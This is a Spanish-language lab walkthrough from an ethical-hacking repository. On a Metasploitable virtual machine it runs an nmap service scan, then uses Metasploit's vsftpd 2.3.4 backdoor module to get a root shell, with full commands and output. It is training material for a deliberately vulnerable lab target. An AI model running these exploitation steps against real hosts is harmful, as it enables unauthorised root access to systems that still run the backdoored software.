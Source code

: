 # Recursos de Hacking Ético

## Explotando una vulnerabilidad

Tengo instalada una máquina virtual de metasploitable y lo primero que quiero hacer es buscar qué puertos abiertos tiene y qué software hay en cada puerto. Para eso lo primero que haré es lanzar nmap:

```sh
nmap -sV 10.0.2.4
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 09:36 EDT
Nmap scan report for 10.0.2.4
Host is up (0.0012s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:E5:02:48 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.16 seconds
```

Una vez que vemos qué software hay abierto podemos buscar en msfconsole qué exploits existen para intentar ganar acceso. Si busco por vsftpd veremos que hay un exploit que crea una backdoor y nos da acceso a la máquina:

```sh
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```

Si queremos usar ese exploit debemos hacer lo siguiente:

```sh
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
```

Podemos ver qué parámetros usa el exploit y configurarlo ejecutando:

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the
  VSFTPD download archive. This backdoor was introduced into the
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011
  according to the most recent information available. This backdoor
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
```

En este caso simplemente voy a cambiar la opcion RHOSTS por la ip donde se encuentra la máquina a la que queremos conseguir acceso:

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.0.2.4
RHOSTS => 10.0.2.4
```

Después simplemente con ejecutar `run` se ejecutará el exploit y nos habrá dado acceso como root a la máquina:

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.0.2.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.2.4:21 - USER: 331 Please specify the password.
[+] 10.0.2.4:21 - Backdoor service has been spawned, handling...
[+] 10.0.2.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 10.0.2.4:6200) at 2021-04-24 09:39:45 -0400
```

Una vez dentro podemos ejecutar cualquier comando que queramos:

```sh
ifconfig
eth0      Link encap:Ethernet  HWaddr 08:00:27:e5:02:48
          inet addr:10.0.2.4  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fee5:248/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2409 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2343 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:163917 (160.0 KB)  TX bytes:182970 (178.6 KB)
          Base address:0xd020 Memory:f0200000-f0220000

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:109 errors:0 dropped:0 overruns:0 frame:0
          TX packets:109 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:27661 (27.0 KB)  TX bytes:27661 (27.0 KB)

```

[Volver al inicio](./../../README.md)
